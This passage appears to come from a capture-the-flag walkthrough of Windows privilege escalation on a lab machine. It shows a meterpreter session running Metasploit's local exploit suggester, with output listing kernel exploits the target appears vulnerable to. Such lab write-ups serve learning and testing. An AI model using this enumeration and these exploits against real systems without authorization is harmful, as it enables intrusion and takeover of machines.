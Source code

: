     [*] Exiting SYSTEM shell
    

## Privesc Alternative: With Metasploit

### Enumeration

I don’t love relying on Metasploit, but one thing that it definitely makes
easier is Windows kernel exploits. I’ll background my meterpreter session so I
can use the exploit suggester to quickly look for potential privescs, and it
returns several options:

    
    
    msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
    
    msf5 post(multi/recon/local_exploit_suggester) > set session 1
    session => 1
    
    msf5 post(multi/recon/local_exploit_suggester) > options 
    
    Module options (post/multi/recon/local_exploit_suggester):
    
       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       SESSION          1                yes       The session to run this module on
       SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits
    
    msf5 post(multi/recon/local_exploit_suggester) > run
    
    [*] 10.10.10.5 - Collecting local exploits for x86/windows...
    [*] 10.10.10.5 - 29 exploit checks are being tried...
    [+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
    [+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
    [+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
    [+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
    [+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
    [*] Post module execution completed
    